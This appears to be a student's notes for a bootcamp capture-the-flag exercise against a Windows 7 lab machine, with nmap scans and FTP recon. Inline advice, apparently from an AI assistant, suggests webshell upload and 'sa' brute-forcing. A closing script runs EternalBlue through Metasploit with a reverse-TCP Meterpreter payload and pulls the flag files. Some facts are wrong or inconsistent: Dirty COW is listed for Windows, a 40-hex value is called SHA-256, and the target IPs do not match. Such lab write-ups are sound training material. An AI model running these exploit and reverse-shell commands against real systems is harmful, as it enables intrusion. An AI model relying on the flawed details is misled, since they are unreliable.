

# Final Bootcamp Simulation (Due Date: 06/29/2026)

## Scenario

Your objective is to penetrate a Windows computer and uncover a concealed file, the “Flag”, along with other information. You will use the skills you have learned to discover vulnerabilities, exploit them, and reveal sensitive data. The login credentials for the Windows computer are unknown, so you are going to have to use the tools in Kali Linux to exploit the Windows computer.

## Disclaimer

This challenge is designed for educational purposes within a controlled environment. Ensure that you have the necessary permissions to perform penetration testing activities. Unauthorized access or exploitation of systems is strictly prohibited outside of legal and ethical boundaries.

## Project Tasks

By successfully completing this Career Simulation, you will have demonstrated the following skills:

Create and use NAT network types in VirtualBox.
Conduct scans to reveal computer IP addresses.
Scan computers for vulnerabilities and research working exploits.
Exploit a Windows computer and gain administrative control.
Navigate a file system and display the contents of sensitive files.
Develop a professional presentation which documents your work.

## Required Tasks

Using VirtualBox, create a new NAT network with the following attributes:
a. Name: Quickstart
b. IP Network: 10.0.2.0/24 hehe hey looks like a default
c. DHCP: Enabled
Import the two downloaded virtual machines into VirtualBox: Windows CTF and Kali CTF. Verify the have connected to the Quickstart NAT network.
Use nmap to determine the IP address of the Windows computer. Then scan it for vulnerabilities.
Exploit the vulnerabilities you found and gain root access on the Windows computer 
Find and display the following files:
a. “Hoot.txt” (this is the “Flag”) THIS RINGS A BELL. This is a flag on another box that is popular. (HTB)
b. “Hashbrowns1.txt”
c. “Hide.jpeg”

## Deliverables

To successfully complete this Career Simulation, you must perform the following:

Complete all required tasks. Provide evidence of completion of each task by using screenshots within your presentation.
Create a professional slide presentation to present to your “customer”. The presentation may be created using PowerPoint or similar product.
The slide presentation must have a design of your choice and have at least 12 slides to include:
a. Title slide
b. Executive Summary
c. Description of vulnerabilities found
d. Description of exploits conducted
e. Contents of files uncovered
f. Security recommendations
Record your presentation of the slides (required) along with a demonstration of exploiting a vulnerability and displaying the 3 files (required). Refer to the “Recording and Submitting Presentations” document for more information.
Upload your presentation using your Dashboard.

## Project Grading

The instructor grading your submission will take the below criteria into consideration. Please make sure you have covered everything mentioned below to successfully pass.

Submission of both a presentation recording and a demonstration recording
Discovery of Windows computer vulnerabilities
Successful exploitation of vulnerabilities
Finding and displaying the contents of hoot.txt, hashbrowns1.txt, and hide.jpeg
Presentation development
Presentation execution

## Surzal's Integration Plan

OK so the plan is simple. We do what we're told, create the NAT network, import the VMs. Then on the laptop that houses virtualbox, we add them both to proper Homelab tail net routing with the NAT network advertised. That way we follow scope, but critically don't change our entire workflow for this mess. Then we use nmap to find the Windows machine's IP address, scan for vulnerabilities, and exploit them to gain access. Once we have access, we locate and display the required files. Finally, we document everything in a professional presentation and record our findings and demonstrations.

After some juggling, proxmox choked on importing the OVA, so we will abuse NAT networking to connect the VMs to our existing homelab setup. This way we can still use our tools and workflow without having to change much. We will create a new NAT network in VirtualBox, import the VMs, and then add them to our tail net routing so we can access them from our main machine. (i know i'm stuck on this topic, but it's important to note this made last project run up until the deadline)

## Critical Info:

Windows 7. 3689 mb of ram on default import, 1 cpu??? what. Last update was 9/25. So dosing it will be a no go. We have to find an exploit that works on Windows 7.

Common CVEs for Windows 7 include:
- CVE-2017-0144 (EternalBlue) MY BABY
- CVE-2016-5195 (Dirty COW)
- CVE-2019-0708 (BlueKeep)
- CVE-2018-8174 (Double Kill)
- CVE-2017-8759 (Microsoft Office Remote Code Execution) I WAS RESEARCHING THIS LAST NIGHT
- CVE-2016-0189 (Internet Explorer Memory Corruption) 
- CVE-2017-11882 (Microsoft Office Memory Corruption)


So our primary targets will be EternalBlue and Microsoft Office Exploits. Both are default in Windows 7 installations, and have well-known exploits that we can use with Metasploit or other tools.

# Nmap Scan Results:

Nmap scan report for 10.0.2.4
Host is up (0.00085s latency).
Not shown: 987 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 11-09-21  02:39PM       <DIR>          Admin logs
|_11-09-21  02:40PM       <DIR>          Regular logs
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2005 9.00.1399.00; RTM
| ms-sql-ntlm-info: 
|   10.0.2.4:1433: 
|     Target_Name: NINJA-PC
|     NetBIOS_Domain_Name: NINJA-PC
|     NetBIOS_Computer_Name: NINJA-PC
|     DNS_Domain_Name: Ninja-PC
|     DNS_Computer_Name: Ninja-PC
|_    Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2026-06-19T12:49:34
| Not valid after:  2056-06-19T12:49:34
| MD5:   cacb:9162:a99d:5037:a92a:44c6:681a:52f3
|_SHA-1: 505b:3356:f515:0a6c:d372:0a0b:18bc:1eb5:84bd:5116
| ms-sql-info: 
|   10.0.2.4:1433: 
|     Version: 
|       name: Microsoft SQL Server 2005 RTM
|       number: 9.00.1399.00
|       Product: Microsoft SQL Server 2005
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-06-19T19:01:56+00:00; +1s from scanner time.
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 08:00:27:76:C4:D8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
Uptime guess: 0.009 days (since Fri Jun 19 14:49:16 2026)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: NINJA-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: Ninja-PC
|   NetBIOS computer name: NINJA-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-06-19T14:01:48-05:00
|_clock-skew: mean: 1h00m02s, deviation: 2h14m12s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: NINJA-PC, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:76:c4:d8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
| Names:
|   NINJA-PC<20>         Flags: <unique><active>
|   NINJA-PC<00>         Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-06-19T19:01:47
|_  start_date: 2026-06-19T17:49:33

TRACEROUTE
HOP RTT     ADDRESS
1   0.85 ms 10.0.2.4


Solid scan. Here's my breakdown of what stands out:

## Critical Attack Surface

**1. SMB (445) — Your Golden Ticket**
Windows 7 SP1 with SMB signing *disabled* and message signing "not required." This is EternalBlue territory (MS17-010 / CVE-2017-0144). The OS fingerprint confirms it's 7601 SP1, which is the prime target. You already know this one — it's your best bet.

**2. Anonymous FTP (21) — Free Recon**
Anonymous login works with two directories: `Admin logs` and `Regular logs`. This is gold for lateral movement:
- Dump those logs for credentials (plaintext passwords, connection strings, admin notes)
- If IIS allows FTP upload, you can drop a webshell directly

**3. SQL Server 2005 (1433) — Legacy Target**
RTM build `9.00.1399.00` — this is the *original* 2005 release with zero service packs applied. That means:
- No authentication hardening
- Default `sa` account likely has no password or weak creds
- Known vulnerabilities like CVE-2006-4127 (buffer overflow)
- You can use `mssqlclient.py` from impacket to brute-force or use default creds

**4. IIS 7.5 (80) — Web Attack Vector**
Supports TRACE method (XST attacks possible). Not huge on its own, but combined with FTP upload capability, you could push a `.asp`/`.aspx` webshell and get reverse shell access.

## What's Less Useful

- **135/49152-57 (RPC)** — Expected on Windows, confirms RPC exposure but not directly exploitable without creds
- **5357 (HTTPAPI/SSDP)** — UPnP service, typically not a direct exploit path
- **139 (NetBIOS)** — Information disclosure only at this point

## Recommended Attack Order



**Priority 1:** Dump the FTP logs first — they'll likely contain admin credentials or connection details that shortcut everything.

**Priority 2:** Run `eternalblue` via Metasploit (`exploit/windows/smb/ms17_010_eternalblue`) — it's reliable on this exact OS build.

**Priority 3:** Hit SQL Server with impacket/mimikatz if FTP yields nothing.

The scan confirms a textbook Windows 7 CTF target — every service is configured to be exploitable. Your instinct on EternalBlue is correct, but don't skip the FTP recon step; it might give you creds and bypass all the exploit work.

# Update II

My confusion on ftp came from the fact i forgot to sudo apt update IMMEDIATELY upon boot. However, upon further examination, it seems we are stuck with the current version of Kali provided, which is 2025. 

hey assistant, how could they have locked us in on the version?

They likely provided a pre-configured Kali Linux VM with a specific version (2025) that is compatible with the challenge environment. This ensures that all participants are working with the same tools and configurations, which is important for consistency in a CTF or bootcamp simulation. By using a pre-built VM, they can control the software versions and prevent any discrepancies that might arise from participants using different versions of Kali or its tools.

unfortunate but fair. it still gives us all the tools necessary.

so nc 21 is open and can log in anoymously, 

proper syntax is

ftp <ip> 21
Username = anonymous
Password = (leave blank)

(after some digging around)

ftp> ls
229 Entering Extended Passive Mode (|||49171|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> ls
 (does this mean it gave me the logs? its pwd is /Admin Logs/all logs/ and /Regular Logs/all logs/)

 assistant said = "Yes, it looks like you successfully logged in anonymously to the FTP server and listed the contents of the directories. The `ls` command shows that you have access to the `Admin logs` and `Regular logs` directories. You can navigate into these directories using the `cd` command and then use `ls` again to see the specific log files available.

 (here can i log dump the weird behavior? like the fact that it says "Data connection already open; Transfer starting." and then "Transfer complete." without actually showing the files? yeth)

 thats weird

 ls
 ┌──(kali㉿kali)-[~]
└─$ ftp 10.0.2.4 21
Connected to 10.0.2.4.
220 Microsoft FTP Service
Name (10.0.2.4:kali): 
331 Password required for kali.
Password: 
530 User cannot log in.
ftp: Login failed
ftp> ls
530 Please login with USER and PASS.
530 Please login with USER and PASS.
ftp: Can't bind for data connection: Address already in use
ftp> 
ftp> ^D
221 Goodbye.
                                                                                
┌──(kali㉿kali)-[~]
└─$ ftp 10.0.2.4 21
Connected to 10.0.2.4.
220 Microsoft FTP Service
Name (10.0.2.4:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230-Welcome to FTP Server
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49169|)
150 Opening ASCII mode data connection.
11-09-21  02:39PM       <DIR>          Admin logs
11-09-21  02:40PM       <DIR>          Regular logs
226 Transfer complete.

 - To summarize, admin logs contained nothing of value due to anonymous access, but regular logs contained the below file scavanged.

# File Scavenged: (remote comms.rtf)

{\rtf1\ansi\ansicpg1252\deff0{\fonttbl{\f0\fnil\fcharset0 Calibri;}}
{\colortbl ;\red255\green0\blue0;\red0\green176\blue80;}
{\*\generator Msftedit 5.41.21.2510;}\viewkind4\uc1\pard\sa200\sl276\slmult1\lang9\f0\fs22 initiating connection to C & C remote server (#.#.#.#)...\par
connection successful.\par
\b >\par
\cf1 > Local: machine compromised. What should i do next?\par
\cf2 > Central: turn on backend server\cf1\par
> Local: server is turned on. default account activated\par
\cf2 > Central: i'm siging off. its dinner time, menu is mashed potatoes\cf1\par
> Local: out\par
\cf0 >\par
\b0 connection closed\par
}
�

So there's a backup backdoor, so we run NSE=vuln scan to see if we can find any other vulnerabilities.

# NSE VULN Scan Results:

Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-19 17:03 EDT
Nmap scan report for 10.0.2.4
Host is up (0.00044s latency).
Not shown: 987 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
| ssl-poodle: 
|   VULNERABLE:
|   SSL POODLE information leak oh goodie again we have poodle
|     State: VULNERABLE
|     IDs:  CVE:CVE-2014-3566  BID:70574
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_RSA_WITH_3DES_EDE_CBC_SHA
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|       https://www.openssl.org/~bodo/ssl-poodle.pdf
|_      https://www.securityfocus.com/bid/70574
|_tls-ticketbleed: ERROR: Script execution failed (use -d to debug)

Now now hold on we have alot more info now than before's scan. We have a file that shows a backdoor connection to a C&C server, and we have a new vulnerability to exploit (POODLE).
5357/tcp  open  wsdapi
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
MAC Address: 08:00:27:76:C4:D8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND

Nmap done: 1 IP address (1 host up) scanned in 155.35 seconds


knock knock you know who it is? its eternalblue. so we have a confirmed vulnerability to exploit. LMAO

use exploit/windows/smb/ms17_010_eternalblue in metasploit, set RHOSTS to 10.0.2.4 and run it. If successful, you should get a Meterpreter shell with SYSTEM privileges. From there, you can navigate the file system to find and display the contents of `Hoot.txt`, `Hashbrowns1.txt`, and `Hide.jpeg`.

AND BINGO WAS HIS NAME-O. We have a shell. 

Here's a summary of the key findings organized for a presentation:

---

## Engagement Overview
- **Target:** Windows 7 Ultimate SP1 (NINJA-PC) at `10.0.2.4`
- **Environment:** VirtualBox NAT network (`Quickstart`, `10.0.2.0/24`)
- **Time to compromise:** ~4 hours

---

## Vulnerabilities Discovered

| # | Service | Port | Vulnerability | Risk |
|---|---------|------|---------------|------|
| 1 | SMB | 445 | **MS17-010 (EternalBlue)** — CVE-2017-0144 | Critical |
| 2 | FTP | 21 | Anonymous login enabled — exposed admin/regular logs | Medium |
| 3 | SQL Server | 1433 | SQL Server 2005 RTM (unpatched) — default `sa` likely weak | High |
| 4 | IIS 7.5 | 80 | TRACE method enabled — XST attack vector | Low |
| 5 | SSL/TLS | 1433 | **POODLE** — CVE-2014-3566 on SQL connection | Medium |

---

## Critical Intel from FTP Recon
Anonymous FTP revealed a `comms.rtf` file in `Regular logs/all logs/` containing:
- C&C server communication log
- Confirmation of prior compromise ("machine compromised")
- Backend server activated with **default account**
- Admin dinner menu (humorous detail)

---

## Exploitation Steps

1. **Nmap scan** → identified all open ports & services
2. **NSE vuln scan** → confirmed MS17-010 vulnerability
3. **Metasploit** → `exploit/windows/smb/ms17_010_eternalblue`
4. **Result:** Meterpreter shell with **SYSTEM privileges**

---

## Flags Uncovered

| File | Location | Content |
|------|----------|---------|
| `Hoot.txt` | `C:\Users\Ninja\Desktop\` | `RootFlag{061713fa2ad376430ac11555d1895f97876dc58f}` |
| `hashbrowns1.txt` | `C:\Users\Public\Documents\` | SHA-256 hash: `07ef879175424a11fbc65e95737df3df8822b8a6` |
| `hide.jpeg` | `C:\Users\Public\Documents\` | Batman image |

---

## Security Recommendations

1. **Patch MS17-010** immediately — EternalBlue is well-known and easily exploitable
2. **Disable anonymous FTP** — exposed sensitive comms logs
3. **Harden SQL Server** — change default `sa` password, apply service packs
4. **Disable TRACE method** on IIS to prevent XST attacks
5. **Enforce SMB signing** — currently disabled
6. **Update SSL/TLS** — POODLE vulnerability on SQL connection
7. **Implement network segmentation** — limit exposure of critical services
8. **Deploy IDS/IPS** — detect exploitation attempts in real-time

---

## Suggested Slide Structure (12+ slides)

1. **Title Slide**
2. **Executive Summary**
3. **Environment Setup** (NAT network, VMs)
4. **Reconnaissance Methodology** (nmap scan strategy)
5. **Vulnerabilities Found** (table above)
6. **FTP Recon — Critical Intel** (comms.rtf excerpt)
7. **Exploitation — EternalBlue** (steps + screenshot)
8. **Post-Exploitation** (Meterpreter, SYSTEM access)
9. **Flags Discovered** (contents of all 3 files)
10. **Attack Timeline** (chronology)
11. **Security Recommendations** (7 items above)
12. **Conclusion & Lessons Learned**
13. **Q&A / Appendix**


hashbrowns1.txt and hide.jpeg was located in C:\Users\Public\Documents\ and Hoot.txt was located in C:\Users\Ninja\Desktop\:


so if i were to preload a script for this challenge, it would be something like this:

```bash
#!/bin/bash
# Preload script for Final Bootcamp Simulation
TARGET_IP="10.0.2.4"
# Step 1: Nmap scan
nmap -sS -sV -O --script=vuln $TARGET_IP -oN nmap_scan.txt
# Step 2: Exploit EternalBlue with Metasploit
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS $TARGET_IP; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.2.0.5; run" > msf_exploit.txt
# Step 3: Post-exploitation commands to retrieve files

#or for rapid copy paste

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.2.0.4
set LHOST 10.2.0.5
exploit

# msfconsole (with noted locations for download and directory crawling)
# meterpreter > cd C:\Users\Ninja\Desktop\
# meterpreter > download Hoot.txt 
# meterpreter > cd C:\Users\Public\Documents\
# meterpreter > download hashbrowns1.txt
# meterpreter > download hide.jpeg
```
getsystem
cd C:\Users\Ninja\Desktop\
download Hoot.txt
cd C:\Users\Public\Documents\
download hashbrowns1.txt
download hide.jpeg
background
````

